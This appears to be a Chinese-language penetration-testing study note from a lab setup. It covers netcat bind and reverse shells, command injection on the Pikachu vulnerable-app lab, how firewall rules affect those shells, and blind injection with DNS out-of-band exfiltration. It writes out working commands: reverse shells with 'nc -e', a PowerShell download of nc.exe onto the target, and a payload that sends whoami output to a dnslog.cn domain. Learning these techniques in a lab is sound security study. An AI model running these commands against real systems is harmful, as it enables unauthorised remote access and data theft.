# 文件上传下载

打开[网站](https://forum.ywhack.com/bountytips.php?download)，现在放文件的服务器启动HTTP服务

cmd输入命令打开即可

找到下载文件的命令根据不同操作系统选择就可以

上传成功在目录下可以发现`nc.exe`

# 反弹Shell命令-解决数据回显&解决数据通讯

## 基础概念

可以把整个过程理解成：

**设备 → 默认网关 → NAT → 公网 IP → Internet → 对方设备**

- **内网 IP**：设备在局域网里的地址，例如 `192.168.1.10`。
- **默认网关**：设备要访问其他网络时，先把数据交给网关，例如路由器 `192.168.1.1`。
- **NAT**：路由器收到内网设备的数据后，把**内网 IP 转换成公网 IP**，再访问 Internet。
- **公网 IP**：设备/路由器在 Internet 上对外使用的地址，例如 `180.213.215.117`。
- **NC/Ncat**：负责建立 TCP/UDP 网络连接，本身不负责把内网 IP 变成公网 IP。

例如：

```text
我的电脑
192.168.1.10
     ↓
默认网关
192.168.1.1
     ↓
NAT
192.168.1.10 → 180.213.215.117
     ↓
Internet
     ↓
对方公网 IP
```

如果使用 **NC/Ncat**：

```text
NC/Ncat
   ↓
目标 IP + 端口
   ↓
网络路由
   ↓
目标设备
```

所以：

**同一局域网：**

```text
192.168.1.10 ── NC/Ncat ──→ 192.168.1.20
```

通常可以直接连接。

**不同局域网：**

```text
192.168.1.10
     ↓
NAT
     ↓
公网 Internet
     ↓
对方公网 IP
```

这时不能直接拿对方的 `192.168.x.x` 连接，因为这个地址只在对方自己的局域网里有效。

如果对方设备有**可到达的公网 IP + 开放的端口**，NC/Ncat 就可以通过 Internet 建立连接。

> Ai生成的理清公网和内网关系就好  

## 正向链接

> 我用两台虚拟机演示了，都是内网。

正向连接是把打开本地端口监听，等待对方连接。

### kali连接windows

window输入`nc -e cmd -lvvp 5566 `监听5566，连接后交出`cmd`，kali输入`nc windous-ip 5566` 接收,可以查看文件进行操作

### window连接kali

kali打开监听即可

## 反向连接

> 同样都是内网

反向连接就是被控端主动连出到控制端，控制端监听等待背控制端连接,`nc -e /bin/sh  192.168.87.133 5566`

首先要打开对方的监听`nc -lvp 5566`,监听等待

> 买了个服务器用公网

直接连接失败，公网找不到内网。



利用反向连接 让kali主导找公网window，成功！

# Pikachu漏洞平台演示&&防火墙策略

## 了解管道

通过管道运算符执行多个命令

管道符：| (管道符号) ||（逻辑或） &&（逻辑与） &(后台任务符号)

Windows->| & || &&

Linux->; | || & && \``  (特有``和;)

| 符号 | 名称   | 作用                                               |
| ---- | ------ | -------------------------------------------------- |
| `|`  | 管道符 | 前命令的**输出** → 后命令的**输入**                |
| `||` | 逻辑或 | 前命令**失败**才执行后命令                         |
| `&&` | 逻辑与 | 前命令**成功**才执行后命令                         |
| `&`  | 后台符 | 让命令在**后台**执行（或**顺序执行**多条）         |
| `;`  | 分号   | **顺序执行**多条命令（Linux 特有）                 |
| `` ` | 反引号 | **命令替换**，把里面命令的输出当参数（Linux 特有） |

## 靶场

利用管道符执行`whoami`，可行，判断为windows(用PHP study搭建的靶场）

为了获取此服务器权限，利用nc，已知nc不存在window中，上传命令执行nc。上传[命令](#文件上传下载)到C盘`powershell.exe -Command "Invoke-WebRequest -Uri http://192.168.31.240:89/nc.exe -OutFile c:\\nc.exe"`

进行反弹操作，正向链接或者反向连接，都可以，在内网服务器，上传命令` 127.0.0.1 | nc -e cmd  -lvvp 5566`

反向连接

## 加入防火墙策略

开启防火墙，添加入站规则阻止5566端口连接

此时用正向连接无法连接，此时只能利用反向连接，成功连接

添加出站规则限制5566

连接再次失效

> 注意限制出站不限制入站，用正向连接也不行

## 靶场配置文件更改为不回显命令

改一下

此时没有任何回显信息

进行带外查询，在[DNSLog](www.dnslog.cn)上弄个域名，并监控此域名的DNS解析请求。通过解析请求外带查询。理论上，将`whoami`赋值,ping域名可将其带出，但是cmd没有变量功能，用`powershell`,并且whoami结果带`'\'`(ping命令 域名要求不带),将其其替换掉。输入命令`127.0.0.1 | powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.hrhi0v.dnslog.cn';$z=$x+$y;ping $z`

得到用户名